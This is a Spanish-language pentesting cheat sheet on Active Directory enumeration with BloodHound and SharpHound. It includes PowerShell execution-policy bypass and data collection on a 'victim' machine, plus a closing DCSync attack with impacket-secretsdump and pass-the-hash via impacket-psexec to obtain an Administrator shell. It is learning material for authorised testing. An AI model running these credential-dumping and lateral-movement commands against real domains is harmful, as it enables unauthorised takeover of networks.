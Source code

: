 # BloodHound 

Tags: #AD #Powershell #Windows #Enumeracion 

Bloodhound es una app en JavaScript la cual puede identificar fácilmente ataques altamente complejo que de otro modo seria imposible identificar ademas puede identificar grupos con permisos excesivos. Los defensores pueden usar Bloohound para identificar y eliminar esas mismas rutas de ataque. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1 
```

```powershell 
# En la maquina victima con PS. Hacemos lo siguiente para la recoleccion de data

❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

# Enumeracion 
❯ . .\SharpHound.ps1                         # Importamos el modulo 
❯ Import-Module .\SharpHound.ps1             # Otra forma de importar el modulo  

❯ Invoke-Bloodhound -CollectionMethod All    # Utilizamnos la funcion 'Invioke' para crear el archivo  '2024_bloodhound.zip' el cual usaremos en el GUI de la herramienta de Boolhound
```

## BloodHound en Kali 

```bash 
# Abrirmos la herramienta de Boodhound y cargamos el archivo '2024_bloodhound.zip'

❯ apt install neo4j bloodhound          # Instalar la herramienta en Kali 
❯ update-alternatives --config java     # Ver las versiones de Java y cual se esta utilizando (Se debe usar la version 11)

❯ neo4j console &> /dev/null & disown   # Iniciamos el servicio en el puerto local 7474 y lo independizamos
	# Nota: Si es la primera vez que lo usamos, abrimos la web 'localhost:7474' y agregamos las credenciales 'neo4j:neo4j', despues, agregamos una passwd nueva y asi podremos conectarnos al 'Bloodhound'

❯ bloodhound &> /dev/null & disown      # Abrimos el 'Bloodhound' para usar el GUI y cargar el archivo .ZIP
```

```bash 
# Otra forma de subir data a la plataforma de Bloodhound

❯ bloodhound-python -d Domain.local -u User -p Password -ns IP_DC -c all   # Ejecutamos para recopilar la data y asi poder subir el archivo a la plataforma de Bloodhound

Nota: Importamos todos los archivos que fueron generados en formato Json
```

## Ataques 'DCSync'

```bash 
# Si encontramos en 'Bloodhound' un usuario que tiene un 'GetChangesAll' sobre el dominio podremos hacer un 'DCSync attack' para obtener el hash del usuario 'Administrador' y por lo tanto efectuar un 'Pass-The-Hash'

❯ impacket-secretsdump <Domain/User@IP>    # Hacemos un ataque 'DCSync', debemos de colocar la passwd del usuario 
❯ impacket-psexec <Domain/Administrator@IP> cmd.exe -hashes <:hash>   # Utilizamos 'psexec' para obtener una consola interactiva autenticandonos como el usuario 'Administrator' y colocando su hash para hacer 'Pass-The-Hash'    
```